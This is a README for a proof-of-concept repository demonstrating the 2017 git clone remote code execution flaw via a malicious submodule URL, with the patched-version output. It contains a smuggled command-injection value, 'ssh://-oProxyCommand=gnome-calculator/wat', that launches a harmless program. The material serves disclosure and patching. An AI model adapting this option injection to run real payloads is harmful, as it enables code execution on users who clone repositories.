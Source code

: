 # Git clone RCE

This repo is an example of `git clone` vulnerability described in http://blog.recurity-labs.com/2017-08-10/scm-vulns using a git submodule.

To see it in action, simply clone the repo using:
```
git clone https://github.com/disconnect3d/git_clone_rce_calc.git --recursive
```
The recursive part is crucial as git **must** try to clone the malicious git submodule url.
This will launch a `gnome-terminal` on your machine.

### To be safe
**Upgrade your Git to 2.14.1 as that is fixed on that version as stated in [git's release notes](https://raw.githubusercontent.com/git/git/master/Documentation/RelNotes/2.14.1.txt).**

After updating the issue is gone:
```
$ git clone https://github.com/disconnect3d/git_clone_rce_calc.git --recursive
Cloning into 'git_clone_rce_calc'...
remote: Counting objects: 15, done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 3), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), done.
Resolving deltas: 100% (3/3), done.
Checking connectivity... done.
Submodule 'git_calc_rce' (ssh://-oProxyCommand=gnome-calculator/wat) registered for path 'git_calc_rce'
Cloning into 'git_calc_rce'...
fatal: strange hostname '-oProxyCommand=gnome-calculator' blocked
fatal: clone of 'ssh://-oProxyCommand=gnome-calculator/wat' into submodule path 'git_calc_rce' failed
```
